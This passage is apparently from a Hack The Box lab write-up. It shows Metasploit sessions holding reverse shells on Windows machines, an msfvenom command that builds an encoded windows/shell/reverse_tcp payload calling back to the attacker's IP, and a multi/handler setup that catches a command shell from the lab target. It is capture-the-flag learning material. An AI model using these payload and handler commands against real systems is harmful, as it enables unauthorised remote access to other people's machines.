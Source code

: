 ```
Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell x86/windows  Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  192.168.30.130:8282 -> 192.168.30.141:49388 (192.168.30.141)
  2         shell x86/windows                                                                                    192.168.30.130:8282 -> 192.168.30.141:49389 (192.168.30.141)


msf exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
win-ecc1ucer094\medic
```

Now we know that the exploit works & we can successfully get a shell. It may seem like overkill, but I feel like it's good to understand what a potentially unknown exploit is doing on a local machine before you try exploiting something remotely. It will save tons of time trying to debug why _x_ or _y_ isn't working, or in determining if the machine simply needs a reset because the service crashed, or there's other strangeness taking place. 


## Getting Shell/Root.txt
So we know the exploit works, so let's modify our msfvenom command to give us a reverse shell for our HTB IP.
```
root@dastinia:~# msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp  LHOST=10.10.15.226 LPORT=8282 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

_after executing the modified exploit..._
```
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(multi/handler) >  set LHOST tun0
LHOST => tun0
msf exploit(multi/handler) > set LPORT 8282
LPORT => 8282
msf exploit(multi/handler) > set ExitOnSession False
ExitOnSession => false
msf exploit(multi/handler) > exploit -j -z
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 10.10.15.226:8282
msf exploit(multi/handler) > [*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.10.10.74
[*] Command shell session 1 opened (10.10.15.226:8282 -> 10.10.10.74:49178) at 2018-06-14 21:55:43 -0400
```
